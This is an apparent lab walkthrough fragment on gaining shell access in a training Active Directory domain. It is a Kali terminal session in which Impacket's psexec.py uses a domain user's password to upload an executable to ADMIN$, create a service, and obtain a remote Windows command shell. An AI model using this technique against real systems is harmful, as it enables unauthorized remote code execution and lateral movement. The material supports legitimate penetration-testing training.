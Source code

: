 <img src="./images/Gaining_Shell_Access_5.png" alt="Gaining Shell Access 5" width="800"/>

```
┌──(kali㉿kali)-[~]
└─$ psexec.py MARVEL/fcastle:'Password1'@10.0.2.6
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.0.2.6.....
[*] Found writable share ADMIN$
[*] Uploading file sDiaWjFJ.exe
[*] Opening SVCManager on 10.0.2.6.....
[*] Creating service qfAi on 10.0.2.6.....
[*] Starting service qfAi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> help

 lcd {path}                 - changes the current local directory to {path}
 exit                       - terminates the server process (and this session)
 lput {src_file, dst_path}   - uploads a local file to the dst_path RELATIVE to the connected share (ADMIN$)
 lget {file}                 - downloads pathname RELATIVE to the connected share (ADMIN$) to the current local dir
 ! {cmd}                    - executes a local shell cmd

 
C:\Windows\system32> exit
[*] Process cmd.exe finished with ErrorCode: 0, ReturnCode: 0
[*] Opening SVCManager on 10.0.2.6.....
[*] Stopping service qfAi.....
[*] Removing service qfAi.....
[*] Removing file sDiaWjFJ.exe.....

```
